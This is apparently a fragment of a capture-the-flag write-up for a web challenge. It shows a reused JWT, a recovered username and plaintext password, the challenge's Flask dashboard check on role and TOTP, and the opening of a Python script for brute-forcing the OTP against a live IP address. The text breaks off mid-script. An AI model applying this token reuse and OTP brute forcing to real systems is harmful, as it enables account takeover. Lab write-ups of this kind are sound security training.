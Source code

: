 

Using the forget JWT to /fetchtstaff&#x20;

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjA0NjAyNywianRpIjoiNDRhZWZlOWItNTlhOS00OWEwLTk4MGItN2JkNTcyYWY0OWFhIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InNiZXZlIiwibmJmIjoxNzQyMDQ2MDI3LCJleHAiOjE3NDIwNDk2MjcsInJvbGUiOjIsImF2YXRhciI6bnVsbCwidG90cCI6MH0.YKZdzAQgWkNN0dBL-Jres2MU1cisK0txWjha1BMjR8k
```

<figure><img src="../../../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

So the username is&#x20;

```
KonaN.g7q9g4ea7q@seurinets.tekup
```

and the password is the strongPassword&#x20;

```
ywrq4loihIWcRewq 
```

Now it's time to bruteforce the otp and get the FLAG\


<pre class="language-python"><code class="lang-python"><strong># /dahsboard
</strong><strong>@app.route("/dashboard")
</strong>@jwt_required()
def dashboard():
    username = get_jwt()["sub"]
    
    user = User.query.filter_by(username=username).first()
    if user is None:
        return "User not found", 404
    
    if user.role == 2 and get_jwt()["totp"] == user.totp_secret:
        return render_template("dashboard.html", user=user, flag=FLAG)

    return render_template("dashboard.html", user=user, flag="are u admin? cuz i'm not :p")
</code></pre>



```python
# Brute Brute Brute Force

import requests
import time

def test_connectivity():
    try:
        response = requests.get("http://51.77.140.155:9100/", timeout=10)
        print(f"Server reachable: Status {response.status_code}")
        return True
    except Exception as e:
        print(f"Server connectivity test failed: {e}")
        return False

def brute_force_totp_sequential():
```